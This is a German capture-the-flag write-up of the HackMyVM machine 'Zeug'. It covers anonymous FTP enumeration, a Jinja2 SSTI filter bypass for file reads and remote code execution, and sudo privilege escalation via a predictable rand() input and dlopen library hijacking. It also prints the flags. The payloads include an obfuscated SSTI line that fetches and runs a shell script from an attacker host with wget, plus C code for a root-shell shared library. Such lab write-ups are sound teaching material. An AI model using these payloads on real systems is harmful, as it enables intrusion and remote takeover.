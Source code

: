 # Zeug - HackMyVM (Hard)
 
![Zeug.png](Zeug.png)

## Übersicht

*   **VM:** Zeug
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Zeug)
*   **Schwierigkeit:** Hard
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 28. März 2024
*   **Original-Writeup:** https://alientec1908.github.io/Zeug_HackMyVM_Hard/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel der "Zeug"-Challenge war die Erlangung von User- und Root-Rechten. Der Weg begann mit der Enumeration eines FTP-Servers (Port 21, anonymer Login erlaubt) und einer Python/Werkzeug Webanwendung auf Port 5000. Auf dem FTP-Server wurde eine `README.txt` gefunden, die auf den Benutzer `cosette` und einen aktivierten Debug-Modus in der Webanwendung hinwies. Die Webanwendung auf Port 5000 war anfällig für Server Side Template Injection (SSTI) im HTML-Upload. Obwohl Filter versuchten, gefährliche Schlüsselwörter zu blockieren, konnte durch einen spezifischen SSTI-Payload (`{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}`) LFI erreicht werden. Nachdem der Versuch, den Werkzeug-Debug-PIN zu berechnen (durch Sammeln von Systeminformationen via LFI), nicht direkt zum Erfolg führte, wurde ein anderer SSTI-Payload (`{{ config.__class__.from_envvar.__globals__.__builtins__.eval("__impor" + "t__('o" + "s').pop" + "en('wget http://[Angreifer-IP]/shel.sh; bash shel.sh').read") }}`) verwendet, um RCE zu erlangen und eine Reverse Shell als `cosette` zu erhalten. Als `cosette` wurde eine `sudo`-Regel gefunden, die erlaubte, `/home/exia/seed` als Benutzer `exia` auszuführen. Durch Reverse Engineering des `seed`-Programms (impliziert durch Ghidra-Notiz und XOR-Berechnung) wurde die korrekte Eingabe (`3039230856`) ermittelt, um eine Shell als `exia` zu erhalten. Die User-Flag wurde in dessen Home-Verzeichnis gefunden. Schließlich erlaubte eine weitere `sudo`-Regel dem Benutzer `exia`, `/usr/bin/zeug` als `root` auszuführen. Da `/usr/bin/zeug` unsicher eine Shared Library (`/home/exia/exia.so`) mittels `dlopen()` lud, konnte durch Erstellen einer bösartigen `exia.so` (die eine Root-Shell startete) und Ausführen von `sudo /usr/bin/zeug` Root-Zugriff erlangt werden.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `vi` / `nano`
*   `nikto`
*   `dirb`
*   `gobuster`
*   `curl`
*   `ftp`
*   `whatweb`
*   `hydra` (versucht)
*   `netdiscover`
*   `python3` (für SSTI Payloads, PIN-Berechnung, Reverse Shell, `http.server`)
*   `gcc`
*   `wget`
*   `Ghidra` (erwähnt)
*   `nc` (netcat)
*   `script` (für Shell-Stabilisierung)
*   `sudo`
*   Standard Linux-Befehle (`ls`, `cd`, `cat`, `echo`, `chmod`, `id`, `pwd`, `export`, `stty`, `mv`, `touch`, `find`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Zeug" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Enumeration:**
    *   IP-Findung mit `arp-scan` (`192.168.2.122`). Eintrag von `zeug.hmv` in `/etc/hosts`.
    *   `nmap`-Scan identifizierte offene Ports: 21 (FTP - vsftpd 3.0.3, anonymer Login erlaubt) und 5000 (HTTP - Werkzeug/3.0.1 Python/3.11.2 "Zeug - Rendering HTML templates").
    *   `nikto` und `gobuster` auf Port 5000 fanden `/console` (Werkzeug Debug Console).
    *   Anonymer FTP-Login: Download von `README.txt` (enthielt Hinweis auf Benutzer `cosette` und Debug-Modus).
    *   Fehlermeldungen der Webanwendung auf Port 5000 (nach fehlgeschlagenem HTML-Upload mit `import`/`os`) zeigten den Pfad `/home/cosette/zeug/venv/...` und Filter gegen bestimmte Wörter.

2.  **Initial Access (SSTI RCE zu `cosette`):**
    *   Identifizierung einer Server Side Template Injection (SSTI)-Schwachstelle auf Port 5000 durch Test-Upload von `{{7*7}}`.
    *   Umgehung der Filter (`subclasses`, `[]`, `mro`) durch Zugriff auf Builtins über globale Objekte: `{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}` ermöglichte LFI.
    *   *Ein Versuch, den Werkzeug-Debug-PIN zu berechnen (durch Sammeln von Systeminformationen wie MAC, machine-id, boot_id via LFI), schlug fehl oder wurde nicht weiterverfolgt.*
    *   Erfolgreiche RCE durch einen SSTI-Payload, der String-Konkatenation zur Verschleierung von `import` und `os` nutzte und `wget` zum Herunterladen und Ausführen eines Shell-Skripts (`shel.sh`) verwendete:
        `{{ config.__class__.from_envvar.__globals__.__builtins__.eval("__impor" + "t__('o" + "s').pop" + "en('wget http://[Angreifer-IP]/shel.sh; bash shel.sh').read") }}`
    *   Das `shel.sh` enthielt eine Bash-Reverse-Shell.
    *   Erlangung einer interaktiven Shell als Benutzer `cosette`.

3.  **Privilege Escalation (von `cosette` zu `exia` via `sudo seed`):**
    *   `sudo -l` als `cosette` zeigte: `(exia) NOPASSWD: /home/exia/seed`.
    *   Das Binary `/home/exia/seed` wurde zur Analyse heruntergeladen. Ghidra-Analyse (impliziert) zeigte, dass es `rand()` ohne `srand()` verwendet und das Ergebnis mit `0xdeadbeef` XOR-verknüpft, um die erwartete Zahl zu erhalten.
    *   Berechnung der erwarteten Zahl (`0xdeadbeef ^ 1804289383 = 3039230856`).
    *   Ausführung von `sudo -u exia /home/exia/seed` und Eingabe von `3039230856`.
    *   Erlangung einer Shell als `exia`.
    *   User-Flag `HMYVM{exia_1XZ2GUy6gwSRwXwFUKEkZC6cT}` in `/home/exia/user.txt` gelesen.

4.  **Privilege Escalation (von `exia` zu `root` via `sudo zeug` und `dlopen` Hijacking):**
    *   `sudo -l` als `exia` zeigte: `(root) NOPASSWD: /usr/bin/zeug`.
    *   Das Binary `/usr/bin/zeug` wurde zur Analyse heruntergeladen. Ghidra-Analyse zeigte, dass es versuchte, `/home/exia/exia.so` mittels `dlopen()` zu laden.
    *   Erstellung einer bösartigen Shared Library (`exia.c`) in `/home/exia/`, die eine Root-Shell (`/bin/bash`) startete:
        ```c
        #include <stdio.h> #include <stdlib.h> #include <unistd.h>
        void inject()__attribute__((constructor));
        void inject() { unsetenv("LD_PRELOAD"); setuid(0); setgid(0); system("/bin/bash"); }
        ```
    *   Kompilieren zu `exia.so`: `gcc -fPIC -shared -o exia.so exia.c`.
    *   Ausführung von `sudo -u root /usr/bin/zeug`. Die manipulierte `exia.so` wurde geladen und ausgeführt.
    *   Erlangung einer Root-Shell.
    *   Root-Flag `HMYVM{root_Ut9RX5o7iZVKXjrgcGW3fxBq}` in `/root/root.txt` gelesen.

## Wichtige Schwachstellen und Konzepte

*   **Anonymer FTP-Zugriff:** Enthielt eine `README.txt` mit Hinweisen.
*   **Server Side Template Injection (SSTI) in Flask/Jinja2:** Ermöglichte LFI und RCE trotz Filtern durch Zugriff auf globale Objekte und Builtins.
*   **Unsicherer Pseudozufallszahlengenerator (`rand()` ohne `srand()`):** Ermöglichte die Vorhersage der erwarteten Eingabe für ein Sudo-Programm.
*   **Unsichere `sudo`-Konfigurationen:**
    *   `cosette` durfte ein Programm (`seed`) als `exia` ausführen, das eine vorhersagbare Eingabe erwartete.
    *   `exia` durfte ein Programm (`zeug`) als `root` ausführen, das eine Shared Library aus einem benutzerkontrollierten Pfad mittels `dlopen()` lud.
*   **Shared Library Hijacking (`dlopen()`):** Ein als Root laufendes Programm lud eine vom Benutzer manipulierbare Shared Library, was zur Codeausführung als Root führte.
*   **Werkzeug Debug Console (potenziell):** `/console`-Endpunkt gefunden, PIN-Bypass-Versuch vorbereitet, aber nicht final genutzt.

## Flags

*   **User Flag (`/home/exia/user.txt`):** `HMYVM{exia_1XZ2GUy6gwSRwXwFUKEkZC6cT}`
*   **Root Flag (`/root/root.txt`):** `HMYVM{root_Ut9RX5o7iZVKXjrgcGW3fxBq}`

## Tags

`HackMyVM`, `Zeug`, `Hard`, `FTP`, `SSTI`, `Flask`, `Jinja2`, `Werkzeug Debug`, `sudo Exploitation`, `rand() predictability`, `dlopen Hijacking`, `Shared Library Injection`, `Reverse Engineering`, `Ghidra`, `Privilege Escalation`, `Linux`, `Web`, `Python`
